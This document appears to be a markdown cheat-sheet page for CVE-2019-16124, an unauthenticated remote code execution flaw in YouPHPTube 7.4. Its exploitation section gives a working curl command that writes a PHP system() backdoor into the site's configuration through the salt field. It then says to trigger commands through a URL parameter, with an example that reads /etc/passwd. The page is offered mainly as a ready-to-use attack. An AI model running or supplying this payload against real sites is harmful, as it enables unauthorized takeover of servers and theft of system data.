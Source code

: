 ```yaml
---
title: CVE-2019-16124
date: {{ date }}
background: bg-black
icon: cve
tags:
    - exploit
    - CVE-2019-16124
categories:
    - Exploits
    - CVE
intro: YouPHPTube 7.4 Remote Code Execution
plugins:
- copyCode
---
```


Quick Info
-------

### Description {.col-span-2}
* In YouPHPTube 7.4, the file **`install/checkConfiguration.php`** has no access control, which leads to everyone being able to edit the configuration file, and insert malicious PHP code.

### Details
* **Affected Version:** `<=7.4`
* **Vendor Homepage:** [https://www.youphptube.com/](https://www.youphptube.com/)
* **Endpoint:** **`/install/checkConfiguration.php`**

## Exploitation
### Payload {.col-span-3}
To exploit this, we will generate a new malicious config file using the command above. The `databaseName` must be unique and `databaseHost` accessible.
```shell script {.wrap}
curl -s "TARGET/install/checkConfiguration.php" -d "contactEmail=fake-email@fake.com&createTables=2&mainLanguage=RCE&salt=';system(\$_GET['bots']);echo '&systemAdminPass=zerodays.LOL&systemRootPath=/var/www/html/&webSiteRootURL=/var/www/html/&webSiteTitle=Site-Title-Here&databaseHost=127.0.0.1&databaseName=Any-DBname-Here&databasePass=&databasePort=3306&databaseUser=root"
```
Visit site and add param `bots=` to the URL to gain RCE **`http://put-ip-here/?bots=cat+/etc/passwd`**.